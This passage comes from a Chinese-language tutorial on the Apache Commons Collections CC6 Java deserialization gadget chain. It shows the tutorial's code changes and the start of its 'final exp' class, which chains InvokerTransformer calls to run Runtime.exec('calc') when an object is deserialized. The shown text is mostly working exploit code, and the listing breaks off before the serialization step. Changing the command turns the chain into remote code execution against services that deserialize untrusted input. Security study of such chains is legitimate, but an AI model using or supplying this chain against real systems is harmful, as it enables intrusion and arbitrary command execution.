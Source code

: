 所以总结我们的修改：

```java=
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        
        // 放置一个不会弹计算器的 ConstantTransformer
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");
        HashMap<Object, Object> expMap = new HashMap<>();

        expMap.put(tiedMapEntry, "value");
        lazyMap.remove("key"); // 把添加的 key 去掉

        // 反射修改 Transformer 的 factory 值
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap,chainedTransformer);

        serialize(expMap);
        unserialize("ser.bin");
```



#### 最终 exp

```java=
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import sun.util.resources.cldr.zh.CalendarData_zh_Hans_HK;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Main {

    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");
        HashMap<Object, Object> expMap = new HashMap<>();

        expMap.put(tiedMapEntry, "value");
        lazyMap.remove("key");
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
```
